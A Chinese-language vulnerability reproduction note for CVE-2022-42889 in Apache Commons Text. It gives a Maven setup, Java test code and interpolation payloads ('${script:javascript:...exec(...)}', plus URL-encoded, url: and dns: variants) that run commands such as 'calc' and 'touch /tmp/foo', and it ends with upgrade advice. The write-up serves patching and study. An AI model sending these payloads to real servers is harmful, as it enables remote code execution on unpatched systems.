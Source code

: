# 

# Apache Commons Text 远程代码执行漏洞 CVE-2022-42889

## 漏洞描述

Apache Commons Text 项目实现了一系列关于文本字符串的算法，专注于处理字符串和文本块。10月13日，Apache发布安全公告，修复了Apache Commons Text中的一个远程代码执行漏洞（CVE-2022-42889）。Apache Commons Text版本1.5到1.9中，由于不安全的插值默认值，当输入的参数不受信任时，可能导致远程代码执行。

## 漏洞影响

```
1.5.0 ≤ Apache Commons Text ＜ 1.10.0
```

## 环境搭建

IDEA 通过 Maven 导入依赖，pox.xml 如下：

```
<dependencies>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.7</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-text</artifactId>
        <version>1.9</version>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-lang3</artifactId>
        <version>3.12.0</version>
    </dependency>
</dependencies>
```

测试代码：

```
package org.text;

import org.apache.commons.text.StringSubstitutor;

public class Main {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        // String payload = interpolator.replace("${script:js:new
        // java.lang.ProcessBuilder(\"calc\").start()}");
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        interpolator.replace(payload);
    }
}
```

## 漏洞复现

Payload：

```
search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}

url编码
search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

可以尝试
search=${url:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
search=${dns:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

## 修复建议

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。
